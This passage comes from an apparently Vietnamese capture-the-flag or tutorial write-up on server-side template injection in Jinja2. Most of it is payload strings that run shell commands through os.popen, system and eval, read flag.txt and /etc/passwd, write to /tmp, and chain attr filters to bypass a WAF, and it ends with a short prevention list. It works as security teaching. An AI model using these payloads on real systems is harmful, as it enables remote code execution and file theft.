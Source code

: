 Payload trên sẽ thực thi lệnh `id` và hiển thị kết quả.

### 4. Đọc file flag.txt

Để đọc file flag.txt, chúng ta có thể sử dụng:

```
{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}
```

Hoặc sử dụng module `open`:

```
{{''.__class__.__mro__[1].__subclasses__()[40]('flag.txt').read()}}
```

## Payload nâng cao

Dưới đây là một số payload khác nhau để khai thác SSTI trong Jinja2:

### Truy cập các đối tượng hệ thống

```
{{'a'.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}
```

### Thực thi lệnh thông qua nhiều cách khác nhau

```
{{''.__class__.__mro__[1].__subclasses__()[40]('/tmp/test.txt','w').write('PWNED!')}}
{{config.__class__.__init__.__globals__['os'].system('id > /tmp/output.txt')}}
{{request['application']['__globals__']['__builtins__']['eval']('__import__("os").popen("id").read()')}}
```

### Bypass WAF

Nếu có một số filter hoặc WAF, chúng ta có thể thử các kỹ thuật bypass:

```
{{request|attr('application')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('id')|attr('read')()}}
```

## Phòng chống

Để phòng chống lỗ hổng SSTI:

1. Không bao giờ đưa dữ liệu người dùng trực tiếp vào template engine
2. Sử dụng sandbox cho template engine
3. Sử dụng hàm escape khi hiển thị nội dung do người dùng cung cấp
4. Sử dụng template engine an toàn với các tính năng sandboxing
5. Áp dụng nguyên tắc least privilege cho template
6. Kiểm tra và làm sạch dữ liệu đầu vào 